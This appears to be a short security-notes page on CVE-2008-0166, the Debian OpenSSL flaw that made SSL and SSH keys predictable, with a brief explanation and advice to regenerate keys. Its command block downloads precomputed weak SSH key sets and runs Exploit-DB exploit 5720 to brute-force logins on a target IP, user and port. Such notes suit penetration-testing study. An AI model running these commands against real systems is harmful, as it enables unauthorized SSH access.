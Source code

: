 ```yaml
---
description: >-
  Explore an in-depth analysis of the significant CVE-2008-0166, understanding
  its impact, mitigation strategies, and remediation. Be informed, stay secure.
---
```


# 🟢 CVE-2008-0166

CVE-2008-0166 is a vulnerability that affected the random number generator used in Debian-based systems for generating SSL and SSH keys.&#x20;

This flaw, present between September 2006 and May 13, 2008, resulted in predictable cryptographic keys, making it easier for attackers to guess keys and compromise security.&#x20;

{% @mailchimp/mailchimpSubscribe %}

The vulnerability was introduced due to a change in the OpenSSL package that significantly weakened the randomness of generated keys. Systems using these keys should regenerate and replace them immediately.

For more details and mitigation steps, refer to the exploit documentation:

{% embed url="https://www.exploit-db.com/exploits/5720" %}

#### CVE-2008-0166 <a href="#cve-2008-0166" id="cve-2008-0166"></a>

All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

{% embed url="https://www.exploit-db.com/exploits/5720" %}

```
wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```
